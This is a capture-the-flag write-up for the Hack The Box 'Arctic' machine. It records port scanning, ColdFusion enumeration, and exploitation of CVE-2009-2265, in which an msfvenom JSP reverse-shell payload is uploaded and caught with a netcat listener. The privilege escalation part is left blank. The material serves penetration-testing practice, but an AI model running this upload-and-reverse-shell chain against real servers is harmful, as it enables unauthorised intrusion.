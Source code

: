 # Arctic

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Arctic)  [2](https://app.hackthebox.com/machines/Arctic)

**Machine ip:** 10.10.10.11

![Arctic](https://github.com/h4md153v63n/CTFs/assets/5091265/d397feae-2a4e-407d-b89c-8be5e16dbd0c)


# Sections
+ [Reconnaissance](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/46_Arctic.md#reconnaissance)
+ x
+ [Links](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/46_Arctic.md#links)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.11 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.11 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2a63e599-4daa-4749-9bce-3fdd108a0fb8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1fb88333-4181-436f-afa1-c5b07366bca2)


## Enumeration
Visit **http://10.10.10.11:8500/**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2d1d0c15-3bc9-4a1e-b45f-2bbfc5ab816f)

Check consecutively **http://10.10.10.11:8500/CFIDE/** -> **http://10.10.10.11:8500/CFIDE/administrator/**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3ffa0ee5-63da-4a34-802b-d94c1505c0b2)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dc394261-f2e2-4ff1-8097-2bff1c424d5e)


## Exploitation & Gaining Access

### Method 1: [CVE-2009-2265](https://github.com/c0d3cr4f73r/CVE-2009-2265/blob/main/upload.py) - Without Metasploit
`searchsploit ColdFusion 8.0`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8ebb9589-7dde-449e-b246-753a5516da14)

Without metasploit, download the exploit: [CVE-2009-2265](https://github.com/c0d3cr4f73r/CVE-2009-2265/blob/main/upload.py)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/249d5d95-b6cf-4463-b08a-c0a89556408d)

Generate a **jsp** reverse shell payload with msfvenom:

```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.24 lport=4444 -f raw -o payload.jsp
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8a065239-c0c4-444b-b822-4fbb82ec1195)

Execute the exploit: `python2 upload.py 10.10.10.11 8500 payload.jsp`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/14c69e8e-c227-4fd2-8387-c2d648fb6979)

Start netcat listener: `nc -lnvp 4444`

Visit the payload on the browser: `http://10.10.10.11:8500/userfiles/file/exploit.jsp`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4742bb0b-33c5-4a3a-bcb9-7d4e30059efa)

Get the revershell, and read the user.txt flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c7c29511-3e4a-44e2-a455-cbb6fde1a4a6)


## Privilege Escalation

### Method 1: 


---

# Links

# References & Alternatives
+ https://vvmlist.github.io/#Arctic
+ https://0xdf.gitlab.io/2020/05/19/htb-arctic.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/arctic-writeup-w-o-metasploit
+ 


## CVE Scripting
+ **CVE-2009-2265:**
  + https://github.com/c0d3cr4f73r/CVE-2009-2265/tree/main
    + https://github.com/c0d3cr4f73r/CVE-2009-2265/blob/main/upload.py


## Tools
+ x 


## Technical Knowledge
+ x 


## Problems Solution
+ x 


## For More
+ x 


